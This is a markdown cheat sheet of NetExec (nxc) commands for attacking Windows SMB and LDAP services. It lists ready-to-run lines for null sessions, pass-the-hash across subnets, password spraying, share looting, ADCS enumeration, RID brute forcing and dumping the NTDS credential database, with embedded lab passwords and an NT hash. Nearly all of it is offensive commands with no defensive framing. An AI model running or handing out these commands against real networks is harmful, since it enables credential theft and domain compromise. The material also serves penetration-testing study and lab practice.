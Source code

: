 ```yaml
---
title: "Netexec"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


- Check : 
```bash
# Target format
netexec smb ms.evilcorp.org
netexec smb 192.168.1.0 192.168.0.2
```

- Null session : 
```bash
# Null session
netexec smb 192.168.10.1 -u "" up ""
```
- Pass the hash : 
```bash
# Pass the hash against a subnet
netexec smb 172.16.157.0/24 -u administrator -H 'LMHASH:NTHASH' --local-auth
netexec smb 172.16.157.0/24 -u administrator -H 'NTHASH'
```
- Enum smb shared folder : 
```sh
netexec smb $t2 -u 'rsmith' -p 'IHateEric2' --shares
```
- Password spraying : 
```sh
netexec smb $t -u user.txt -p user.txt --no-bruteforce --continue-on-success
netexec ldap $t -u usernames.txt -p 'BabyStart123!' --local-auth
```

- Download Share : 
```sh
netexec smb 10.10.65.99 -u "trainee" -p "trainee" -M spider_plus -o DOWNLOAD_FLAG=True~
```

- Certificate : 
```sh
nxc ldap 10.10.137.165 -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -M adcs
nxc ldap 10.10.137.165 -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -M adcs -o SERVER=hybrid-DC01-CA
```

- Credential dumping
```sh
nxc smb 10.10.137.165 -u Administrator -H '60701e8543c9f6db1a2af3217386d3dc' --ntds
```

- Check if there is an AV : 
```sh
nxc smb <ip> -u user -p pass -M enum_av
```

- Password Policy
```sh
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol
```

- Brute force Rid (Other way to enumerate users )
```sh
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
```

- Check MAQ :
```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```
